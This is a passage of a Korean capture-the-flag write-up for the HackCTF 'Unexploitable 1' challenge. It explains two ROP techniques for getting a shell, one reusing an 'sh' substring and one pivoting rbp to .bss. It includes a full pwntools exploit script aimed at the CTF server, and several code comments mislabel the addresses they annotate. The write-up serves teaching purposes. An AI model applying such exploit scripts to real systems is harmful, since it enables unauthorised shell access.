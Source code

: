 
해당 문제를 푸는 다른 방법이 존재한다.

1. **fflush 문자열 이용하기**

    system함수에 "/bin/sh" 말고도 "sh" 이렇게 인자를 줘도 쉘이 떨어진다. 아이다에서 .LOAD 영역을 확인해보면 fflush 함수의 문자열이 저장되어 있다. 해당 문자열에서 sh를 가져와서 바로 system함수의 인자로 주면  간단하게 해결된다.
<br><br><br>
    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%201/Untitled%205.png)

    0x4003BB의 위치에 fflush 가 저장되어있다. 따라서 0x4003BF를 인자로 주면 된다

    - payload  
        ret(pop rdi; ret;) + sh(0x4003BF) + system_plt

    최종 익스코드
```python
    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz", 3023)
    #p=process("./Unexploitable_1",aslr=False)
    #gdb.attach(p)
    
    e=ELF("./Unexploitable_1")
    
    payload="A"*0x18
    payload+=p64(0x00000000004007d3) # pop rbp ret
    payload+=p64(0x4003bf)   # .bss
    payload+=p64(e.plt['system']) # fgets 113
    
    p.recvuntil("\n")
    p.sendline(payload)
    p.interactive()
```

<br><br>
2. **pop rbp; ret 이용하기**

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%201/Untitled%206.png)

    중요한 점은 시스템함수의 인자인 /bin/sh를 어떻게 처리하여 쉘을 얻을것이냐이다.

    1번의 방법이 아닌 다른 방법으로는, fgets함수를 재호출하여 .bss 영역같은 고정영역에 "/bin/sh"를 저장하면되지만, 3개의 인자를 처리할 수 있는 적절한 가젯을 찾을순 없다.

    잘 보면 위 사진에서 rbp-0x10의 위치에 입력한 데이터를 저장한다. 이 rbp를 .bss영역으로 변경해주면 원하는 영역에 데이터를 쓸수 있다.
<br><br><br>
    따라서 bof를 이용하여 **" ret(pop rbp; ret;) + .bss addr + main_113라인"** 이렇게 입력하게 되면 메인+143라인인 ret가 진행될때 pop rbp로 이동하게 되고, 현재 rsp는 .bss의 주소를 가리키게 된다. 여기서 pop rbp가 진행되어 .bss_addr가 rbp에 담기고 rsp는 증가하여 main_113라인 부분을 가리키게 된다.

    그다음 ret가 진행되어 main+113로 다시 돌아가게된다. 현재 rbp는 .bss의 주소를 가리키고 있으므로 이번에 fgets을 통한 입력값은 .bss로 들어가게된다.
<br><br><br>
    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%201/Untitled%207.png)

    위 사진을 보면 pop rbp가 진행되면 0x601970이 rbp로 들어간다. 이부분이 .bss영역이다. 단 main+113에서 rbp-0x10을 참조하므로 .bss 영역의 원하는 값 + 0x10 입력해줘야 한다.
<br><br><br>
    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%201/Untitled%208.png)
